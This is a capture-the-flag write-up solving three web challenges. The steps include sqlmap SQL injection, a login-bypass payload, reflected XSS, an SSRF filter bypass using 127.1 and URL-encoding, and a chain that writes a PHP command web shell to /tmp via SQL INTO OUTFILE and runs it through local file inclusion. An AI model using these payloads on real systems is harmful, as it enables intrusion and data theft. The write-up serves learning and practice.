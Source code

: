 #### BrailleDB-1

![[Pasted image 20240407223118.png]]

Try to input single quote and it gives us an error

```asciidoc
<br />
<b>Fatal error</b>: Uncaught PDOException: SQLSTATE[42601]: Syntax error: 7 ERROR: unterminated quoted string at or near &quot;'''&quot;
LINE 1: ...CT braille_representation FROM braille WHERE character = '''
^ in /var/www/html/api/braille.php:33
Stack trace:
#0 /var/www/html/api/braille.php(40): charToBraille(''')
#1 {main}
thrown in <b>/var/www/html/api/braille.php</b> on line <b>33</b><br />
```

We may have SQL injection, copy the request and save it in file, lets name it req.txt and run sqlmap on it

```shell
sqlmap -r req.txt --batch --dbs --level 3
```

```shell
[*] information_schema
[*] pg_catalog
[*] public
```

We get few database names, the one we are interested in is 'public', now enumerate the tables in the database 'public'

```shell
sqlmap -r req.txt -D public --tables --batch --level 3
```

```shell
+----------+
| braille  |
| feedback |
| flag     |
+----------+
```

We want to dump the data of table 'flag'

```shell
sqlmap -r req.txt -D public -T flag --batch --dump-all --level 3
```

And we get the flag
**_flag : swampCTF{Un10n_A11_Th3_W4yyy!}_**

---

#### UnderConstruction

Visit the given web page and in front of us we see

![[Pasted image 20240407223140.png]]

So there is a page query parameter and it id loading a page based on the name given to it, the first thing that comes to my mind is LFI so lets try adding basic LFI payload, generally the websites are hosted from /var/www/html so we need to go back atleast 3 directories

```url
http://chals.swampctf.com:60310/?page=../../../etc/passwd
```

And we get the response

```http
HTTP/1.1 200 OK
Date: Sun, 07 Apr 2024 17:04:27 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Content-Length: 978
Connection: close
Content-Type: text/html; charset=UTF-8

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

So there is only one user that is the root user

The hint given to us is that we have to chain 2 vulnerabilities so lets see if we can find another one as well. We can see that there is an option of Admin login lets click on that

![[Pasted image 20240407223618.png]]

Again the file being loaded using the page parameter and we know we have LFI
Lets try SQL injection on the login form

```SQL
username: admin' or 1=1-- -
password: randomData
```

And we get login successful

![[Pasted image 20240407223818.png]]

We can also see that whatever we type is being reflected back so we may also have reflected XSS, we can try that too

```SQL
username: admin' or 1=1-- -<script>alert(10)</script>
password : asdf
```

And we get a pop up

![[Pasted image 20240407224140.png]]

This is although useless but good to try and find other vulnerabilities as well for practice

Now we need to chain SQL injection and LFI, how can we do that?

Lets try using SQL Union queries and find the number of columns

```SQL
username: a' or 1=1 union select 1 from information_schema.tables-- -
password: asdf
```

It gives back the response

![[Pasted image 20240407224544.png]]

```text
Login failed! Please try again.
The used SELECT statements have a different number of columns
```

Lets try with 2 columns

```SQL
a' or 1=1 union select 1,2 from information_schema.tables-- -
```

Still Login failed
Now with 3 columns

```sh
a' or 1=1 union select 1,2,3 from information_schema.tables-- -
```

And we get a successful login

![[Pasted image 20240407224736.png]]

```asciidoc
Login successful! Welcome back, a' or 1=1 union select 1,2,3 from information_schema.tables-- -!
```

The next step was new to me. The thing is even though it shows login successful, nothing changes, no cookie is set whatsoever nor does the previous page which had site under construction changes so we need to do something with just the SQL commands.
First I try to figure out the version of SQL and more information about the database
using sqlmap, we can also do it manually

I found this

```asciidoc
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```

This step is where it gets interesting, these is a command called `into outfile`

This is what the official documentation says

``SELECT INTO OUTFILE` writes the resulting rows to a file, and allows the use of column and row terminators to specify a particular output format.`

You can read more about it on [Into Outfile](https://mariadb.com/kb/en/select-into-outfile/)

Basically we want to write to a file then open it using LFI, in that file we pass command injection payload like

```php
<?php system($_GET['cmd']);?>
```

Since the server is running on php, this should work
Here is what our SQL query will look like

```SQL
' union select null,null,"<?php system($_GET['cmd']);?>" into outfile "/tmp/command.php"-- -
```

![[Pasted image 20240407232425.png]]

We will get a login failed but that doesnt matter
Now all we have to do is open this file using LFI and add query parameter `cmd` to the request, this is how our request will look like

```url
http://chals.swampctf.com:60310/?page=../../../tmp/command.php&cmd=id
```

![[Pasted image 20240407232503.png]]

We pass `ls` to command parameter and find out that the name of file is `super_secret_flag_plz_no_read.txt`

![[Pasted image 20240407232545.png]]

Lets do

```url
http://chals.swampctf.com:60310/?page=../../../tmp/command.php&cmd=cat%20%20super_secret_flag_plz_no_read.txt
```

And we get the flag

![[Pasted image 20240407232639.png]]

**_flag : swampCTF{ch4ining_Vu1ns_I5_Pr3tty_C0Ol}_**

---

#### MemeGenerator

- Looking around the website the most interesting features are to create a meme, and to load in a custom image

- When you load an image from a URL it makes a POST request to loadImages, with the payload `{imageURL: INPUT}` - Something like this is potentially vulnerable to SSRF

- If you set the URL to be \https://example.com, the response returned is what you would get if you make a request to \https://example.com directly

- Trying \http://localhost:5000 to see what the developers may be exposing locally, you get the error "Your request was blocked for security reasons - A cheat sheet like this has resources on how to bypass this filter: \https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md

- Trying \http://127.1:5000 bypasses the filter, but we see the same landing page

- Doing a dirb on the website reveals that there is a page /admin, that returns a 403, but maybe not on localhost

- Doing SSRF with \http://127.1:5000/admin gives you the security error again

- The payload \http://127.1:5000/%61dmin byasses this payload and you get the flag
